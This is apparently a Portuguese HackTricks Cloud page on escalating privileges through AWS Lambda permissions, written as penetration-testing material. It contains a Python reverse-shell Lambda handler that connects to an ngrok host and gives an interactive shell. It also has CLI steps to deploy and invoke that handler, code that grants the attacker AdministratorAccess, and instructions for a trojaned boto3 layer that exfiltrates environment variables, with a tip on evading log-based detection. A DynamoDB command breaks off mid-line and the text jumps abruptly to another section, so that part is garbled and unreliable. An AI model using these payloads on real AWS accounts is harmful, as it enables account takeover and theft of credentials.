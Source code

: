 # AWS - Privesc do Lambda

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## lambda

Mais informações sobre lambda em:

{% content-ref url="../../aws-security/aws-services/aws-lambda-enum.md" %}
[aws-lambda-enum.md](../../aws-security/aws-services/aws-lambda-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `lambda:CreateFunction`, (`lambda:InvokeFunction` | `lambda:InvokeFunctionUrl`)

Um usuário com as permissões **`iam:PassRole`, `lambda:CreateFunction`** e **`lambda:InvokeFunction`** pode **escalar privilégios passando uma função IAM existente para uma nova função Lambda** que inclui código para importar a biblioteca AWS relevante para sua linguagem de programação de escolha e, em seguida, usá-la para executar ações de sua escolha. O código poderia então ser executado invocando a função através da API da AWS.

Um atacante poderia abusar disso para obter um **rev shell e roubar o token**:

{% code title="rev.py" %}
```python
import socket,subprocess,os,time
def lambda_handler(event, context):
   s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
   s.connect(('4.tcp.ngrok.io',14305))
   os.dup2(s.fileno(),0)
   os.dup2(s.fileno(),1)
   os.dup2(s.fileno(),2)
   p=subprocess.call(['/bin/sh','-i'])
   time.sleep(900)
   return 0
```
{% endcode %}

```bash
# Compacte o rev shell
zip "rev.zip" "rev.py"

# Crie a função
aws lambda create-function --function-name my_function \
    --runtime python3.9 --role <arn_of_lambda_role> \
    --handler rev.lambda_handler --zip-file fileb://rev.zip

# Execute a função
aws lambda invoke --function-name my_function output.txt
## Se você tiver a permissão lambda:InvokeFunctionUrl, precisará expor a função em uma URL e executá-la por meio da URL

# Liste as funções
aws iam list-attached-user-policies --user-name <user-name>
```

Você também pode **abusar das permissões da função lambda** a partir da própria função lambda.\
Se a função lambda tiver permissões suficientes, você poderá usá-la para conceder direitos de administrador a você:

```python
import boto3
def lambda_handler(event, context):
    client = boto3.client('iam')
    response = client.attach_user_policy(
        UserName='my_username',
        PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
    )
    return response
```

**Impacto potencial:** Privesc direto para a função de serviço lambda especificada.

{% hint style="danger" %}
Observe que, mesmo que possa parecer interessante, **`lambda:InvokeAsync`** **não permite por si só executar `aws lambda invoke-async`**, você também precisa de `lambda:InvokeFunction`
{% endhint %}

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:AddPermission`

Como no cenário anterior, você pode **conceder a si mesmo a permissão `lambda:InvokeFunction`** se tiver a permissão **`lambda:AddPermission`**

```bash
# Verifique o exploit anterior e use a seguinte linha para conceder as permissões de invocação
aws --profile "$NON_PRIV_PROFILE_USER" lambda add-permission --function-name my_function \
   --action lambda:InvokeFunction --statement-id statement_privesc --principal "$NON_PRIV_PROFILE_USER_ARN"
```

**Impacto potencial:** Privesc direto para a função de serviço lambda especificada.

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateEventSourceMapping`

Um usuário com as permissões **`iam:PassRole`, `lambda:CreateFunction`** e `lambda:CreateEventSourceMapping` (e possivelmente `dynamodb:PutItem` e `dynamodb:CreateTable`), mas **sem** a permissão `lambda:InvokeFunction`, pode escalar privilégios **passando uma função IAM existente para uma nova função Lambda** que inclui código para importar a biblioteca AWS relevante para sua linguagem de programação de escolha e, em seguida, usá-la para executar ações de sua escolha. Eles então precisariam **criar uma tabela DynamoDB ou usar uma existente** para **criar um mapeamento de fonte de eventos para a função Lambda apontando para essa tabela DynamoDB**. Em seguida, eles precisariam **colocar um item na tabela** ou esperar que outro método o faça para que a **função Lambda seja invocada**.

```bash
aws lambda create-function --function-name my_function \
    --runtime python3.8 --role <arn_of_lambda_role> \
    --handler lambda_function.lambda_handler \
    --zip-file fileb://rev.zip
```

Onde o **código** no arquivo python **utilizaria a função IAM**. Um exemplo seria o mesmo script usado nos métodos anteriores.

Depois disso, o próximo passo depende de **se o DynamoDB está sendo usado** no ambiente AWS atual. **Se** estiver sendo **usado**, tudo o que precisa ser feito é **criar o mapeamento de fonte de eventos** para a função Lambda, mas se não, o atacante precisará **criar uma tabela com streaming habilitado** com o seguinte comando:

```bash
aws dynamodb create-table --table-name my_table \
    --attribute-definitions AttributeName=Test,AttributeType=S \
    --key-schema AttributeName=Test,KeyType
#### Exploração

**Anexar uma camada a uma função** requer apenas a permissão `lambda:UpdateFunctionConfiguration` e **as camadas podem ser compartilhadas entre contas**. Também precisaríamos saber **quais bibliotecas eles estão usando**, para que possamos substituí-las corretamente, mas neste exemplo, vamos **assumir que a função atacada está importando o boto3**.

Apenas para garantir, vamos usar o Pip para instalar a mesma versão da biblioteca boto3 do tempo de execução do Lambda que estamos visando (Python 3.7), para que não haja nada diferente que possa causar problemas na função de destino. O tempo de execução atualmente usa a versão 1.9.42 do boto3.

Com o seguinte código, instalaremos a versão 1.9.42 do boto3 e suas dependências em uma pasta local "lambda\_layer":

```
pip3 install -t ./lambda_layer boto3==1.9.42
```

Em seguida, abriremos `/lambda_layer/boto3/__init__.py` e adicionaremos o código malicioso. O payload que adicionaremos parece com isso:

![](<../../../.gitbook/assets/image (26).png>)

`requests` está sendo importado de `botocore`. A função exfiltrará as variáveis de ambiente, e o try-except e o timeout de 0,1 estão lá para garantir que este código não quebre nada.

{% hint style="info" %}
**Nota importante:** Você não deve mais usar `from botocore.vendored import requests` em testes de penetração reais, porque um "DeprecationWarning" será impresso nos logs do CloudWatch daquela função, o que provavelmente fará com que você seja descoberto por um defensor.
{% endhint %}

Agora, empacote esse código em um **arquivo ZIP** e **faça o upload** para uma **nova camada Lambda na conta do ATACANTE**. Você precisará criar uma pasta "python" primeiro e colocar suas bibliotecas lá para que, uma vez que a carregarmos no Lambda, o código seja encontrado em "/opt/python/boto3". Além disso, certifique-se de que a camada seja compatível com o Python 3.7 e que a **camada esteja na mesma região que nossa função de destino**. Depois disso, usaremos `lambda:AddLayerVersionPermission` para **tornar a camada publicamente acessível** para que nossa conta de destino possa usá-la. Use suas credenciais pessoais da AWS para esta chamada de API.

```bash
aws lambda add-layer-version-permission --layer-name boto3 \
    --version-number 1 --statement-id public \
    --action lambda:GetLayerVersion --principal *
```

Agora, com as **credenciais comprometidas** que temos, executaremos o seguinte comando em nossa função Lambda de destino "s3-getter", que **anexará nossa camada Lambda entre contas**.

```
aws lambda update-function-configuration \
    --function-name s3-getter \
    --layers arn:aws:lambda:REGIÃO:ID-DA-NOSSA-CONTA:layer:boto3:1
```

O próximo passo seria **invocar a função** nós mesmos, se pudermos, ou esperar até que ela seja **invocada por meios normais** - que é o método mais seguro.

Uma **maneira mais furtiva de explorar essa vulnerabilidade** pode ser encontrada em:

{% content-ref url="../aws-persistence/aws-lambda-persistence/aws-lambda-layers-persistence.md" %}
[aws-lambda-layers-persistence.md](../aws-persistence/aws-lambda-persistence/aws-lambda-layers-persistence.md)
{% endcontent-ref %}

**Impacto potencial:** Privesc direto para a função de serviço lambda usada.

### `?iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateFunctionUrlConfig`, `lambda:InvokeFunctionUrl`

Talvez com essas permissões você possa criar uma função e executá-la chamando a URL... mas não consegui encontrar uma maneira de testá-la, então me avise se você conseguir!

### Lambda MitM

Algumas lambdas vão **receber informações sensíveis dos usuários em parâmetros**. Se conseguir RCE em uma delas, poderá exfiltrar as informações que outros usuários estão enviando para ela, verifique em:

{% content-ref url="../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>